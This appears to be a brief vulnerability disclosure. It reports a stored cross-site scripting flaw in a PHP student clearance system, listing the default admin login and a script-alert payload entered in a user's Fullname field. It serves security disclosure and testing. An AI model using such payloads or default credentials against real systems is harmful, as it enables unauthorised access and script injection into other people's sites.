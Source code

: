 ### Web-Based Student Clearance System - XSS

### Date: 2024-02/26
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html
### Tested on: MacOs13.5 + phpstudy

### 1,Login Admin System 

http://127.0.0.1:8889/admin/login.php
Username: admin
Password: admin123

### 2,Edit User Management 
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708934109647.jpg "Web-Based Student Clearance System")

### 3,Edit Fullname Poc And submit
```
<script>alert(1)</script>
```
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708934189450.jpg "Web-Based Student Clearance System")
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708934232509.jpg "Web-Based Student Clearance System")

